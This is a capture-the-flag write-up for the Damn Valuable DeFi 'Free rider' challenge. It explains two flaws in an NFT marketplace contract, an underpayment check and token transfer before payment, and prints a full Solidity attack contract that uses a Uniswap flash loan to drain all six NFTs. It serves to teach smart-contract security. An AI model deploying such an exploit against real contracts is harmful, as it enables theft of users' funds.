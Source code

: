 # Challenge #10 - Free rider

A new marketplace of Damn Valuable NFTs has been released! There's been an initial mint of 6 NFTs, which are available for sale in the marketplace. Each one at 15 ETH.

A buyer has shared with you a secret alpha: the marketplace is vulnerable and all tokens can be taken. Yet the buyer doesn't know how to do it. So it's offering a payout of 45 ETH for whoever is willing to take the NFTs out and send them their way.

You want to build some rep with this buyer, so you've agreed with the plan.

Sadly you only have 0.5 ETH in balance. If only there was a place where you could get free ETH, at least for an instant.

# Solution

There is 2 exploits with the NFT market place:

first one is related to this line: `require(msg.value >= priceToPay, "Amount paid is not enough");`. Contract checks if buyer has enough for one nft instead of the totality

second is related to the fact that this line : `token.safeTransferFrom(token.ownerOf(tokenId), msg.sender, tokenId);` is before `payable(token.ownerOf(tokenId)).sendValue(priceToPay);` meaning the buyer will as well receive the money from the nftmarket place.

```
contract Attack is IERC721Receiver {
    address payable private nftMarketPlace;
    address payable private riderBuyer;
    uint256[] private tokensIds = [0, 1, 2, 3, 4, 5];
    address payable private damnValuableNFT;
    WETH private weth;
    address payable uniswapPair;
    uint256 private received;
    DamnValuableNFT public token;

    constructor(
        address _nftMarketPlace,
        address _riderBuyer,
        address _damnValuableNFT,
        address _weth,
        address payable _uniswapPair
    ) {
        riderBuyer = payable(_riderBuyer);
        nftMarketPlace = payable(_nftMarketPlace);
        damnValuableNFT = payable(_damnValuableNFT);
        weth = WETH(_weth);
        uniswapPair = payable(_uniswapPair);
        token = new DamnValuableNFT();
    }
    //this function will be called by the NFT marketplace to transfer to NFT to this contract
    function onERC721Received(
        address,
        address,
        uint256 _tokenId,
        bytes memory
    ) external override returns (bytes4) {
        return IERC721Receiver.onERC721Received.selector;
    }
    function transferToMarket() public {
        console.log(weth.balanceOf(uniswapPair));
        //get a flash loan fromm uniswapv2pair
        UniswapV2Pair(uniswapPair).swap(
            15 ether,
            0,
            address(this),
            abi.encode("callme()")
        );
    }
    //this function will be call as the contract doesnt have a "callme" function
    fallback() external payable {
        //get eth from weth in order to buy the nft
        weth.withdraw(15 ether);
        uint256 amount = 15 ether;
        //buy the nfts (only sending the price for 1 is ok as there is an exploit with the contract)
        FreeRiderNFTMarketplace(nftMarketPlace).buyMany{value: 15 ether}(
            tokensIds
        );
        //transfer the nfts to the buyer in order to have attacker receive the money
        for (uint256 i = 0; i < tokensIds.length; i++) {
            DamnValuableNFT(damnValuableNFT).safeTransferFrom(
                address(this),
                riderBuyer,
                i
            );
        }
        //calculate fee (approximately 3 per cent)
        uint256 fee = 1 + (amount * 3) / 997;
        weth.deposit{value: fee + amount}();
        //send back flash loan money + the fee
        weth.transfer(uniswapPair, fee + amount);
    }
    receive() external payable {}
}
```
